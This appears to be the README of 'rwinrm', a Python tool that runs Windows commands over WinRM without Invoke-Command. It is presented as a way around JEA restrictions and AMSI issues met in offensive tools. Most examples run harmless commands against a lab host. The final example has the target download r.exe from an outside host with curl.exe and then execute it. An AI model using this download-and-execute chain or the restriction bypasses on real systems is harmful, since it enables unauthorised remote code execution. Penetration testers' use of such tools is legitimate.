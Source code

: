 #########
Raw WinRM
#########

| Using WinRM without using Invoke-Command cmdlet
| This project use the pypsrp library : https://github.com/jborean93/pypsrp
|
| Use cases :
- Dealing with powershell JEA limitations (Just Enough Administration)
- AMSI issues with NetExec // Evil-WinRM

|
| You can have a look at this project as well : https://github.com/sashathomas/evil-jea

|

Install
*******

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/rwinrm.git@main
    # pipx uninstall rwinrm
    # pipx upgrade rwinrm

|

Usage
*****

.. code-block:: bash

    rwinrm --host IP --user USER --pass PASSWORD -c CMDLET -a ARG -p PARAMETER VALUE

|

Examples
********

.. code-block:: bash

    rwinrm --host 172.16.90.130 --user user --pass Test_1 -c 'Get-Command' 

.. code-block:: bash

    rwinrm --host 172.16.90.130 --user user --pass Test_1 -c 'whoami.exe' 
    [*] => cmdlet: whoami.exe
    [*] Success
    [*] Printing output
    w11\user

    rwinrm --host 172.16.90.130 --user user --pass Test_1 -a 'whoami.exe' 
    [*] => cmdlet: cmd.exe
    [*] -- arg: /c
    [*] -- arg: whoami.exe
    [*] Success
    [*] Printing output
    w11\user

.. code-block:: bash

    rwinrm --host 172.16.90.130 --user user --pass Test_1 -c Get-Process -c Select-Object -a ProcessName -c Out-String -p width 999
    [*] => cmdlet: Get-Process
    [*] => cmdlet: Select-Object
    [*] -- arg: ProcessName
    [*] => cmdlet: Out-String
    [*] -- param: width
    [*] -- value: 999
    [*] Success
    [*] Printing output

    ProcessName            
    -----------            
    AggregatorHost         
    ApplicationFrameHost   
    conhost                
    conhost                
    CrossDeviceService     
    csrss                  
    csrss             
    [...]

.. code-block:: bash

    rwinrm --host 172.16.90.130 --user user --pass Test_1 -c 'curl.exe' -a 'http://192.168.1.21/r.exe' -a '--output' -a 'c:\r\r.exe'
    rwinrm --host 172.16.90.130 --user user --pass Test_1 -c '/r/r.exe' -a '--child'
    [...]

|

Todo
****

| Nested powershell
| Certificate and kerberos support